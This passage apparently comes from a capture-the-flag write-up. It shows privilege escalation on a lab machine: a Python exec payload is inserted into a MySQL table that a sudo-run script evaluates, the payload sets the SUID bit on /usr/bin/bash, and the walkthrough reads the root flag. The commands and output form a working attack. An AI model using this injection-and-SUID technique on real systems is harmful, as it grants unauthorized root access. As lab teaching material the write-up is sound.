 ```bash
-
```

We have now removed the `safe=False` argument, so all parsing is done withough calling `eval`.

Here is a structure of the table escalate.

```bash
mysql> desc escalate;
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
```

With that in mind, let’s inject a malicious python code into the database, in our case let’s get the root SUID sticky bit set to `/usr/bin/bash`.

```bash
mysql> insert into escalate values ("a","b","c",'hello=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');
Query OK, 1 row affected (0.01 sec)

mysql> 
[1]+  Stopped                 mysql -u diego -D app -p
diego@forgot:/opt/security$ sudo /opt/security/ml_security.py 
2022-12-17 08:24:14.446433: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2022-12-17 08:24:14.446510: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine. 
diego@forgot:/opt/security$ /usr/bin/bash -p
bash-5.0# cat /root/root.txt
1*******************************0
```

There we got it. Thanks for reading and happy hacking y'all!
